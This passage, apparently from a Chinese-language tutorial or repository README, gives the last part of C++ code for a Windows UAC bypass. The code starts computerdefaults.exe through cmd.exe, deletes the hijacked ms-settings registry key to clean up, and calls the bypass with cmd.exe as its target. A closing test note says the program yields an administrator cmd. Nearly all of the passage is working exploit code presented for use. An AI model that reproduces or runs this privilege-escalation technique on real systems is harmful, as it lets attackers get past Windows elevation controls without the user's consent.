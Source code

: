 ```cpp

	if (!CreateProcess(
		"C://windows//system32//cmd.exe",  //要执行的应用程序名称（包含路径）
		(LPSTR)"/c C://windows//system32//computerdefaults.exe",  //命令行参数
		NULL,  //进程句柄不可被继承
		NULL,  //线程句柄不可被继承
		FALSE,  //不继承句柄
		0,  //标志位为0
		NULL,  //使用父进程的环境变量
		NULL,  //使用父进程的工作目录
		&si,  //传递启动信息
		&pi)  //传递进程信息
		) {
		printf("CreateProcess failed (%d).\n", GetLastError());  //打印错误信息
		return 0;
	}

	//释放进程句柄和线程句柄
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);

	Sleep(1000);
	
	//删除整个ms-settings目录
	if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)
	{
		printf("RegDeleteTree Error:%d", GetLastError());
		return false;
	}
	system("pause");
}


int main()
{   
    const char* filename = "cmd.exe";
	BypassUac(filename);
}
```



## 运行测试

执行程序后返回一个管理员权限的cmd				
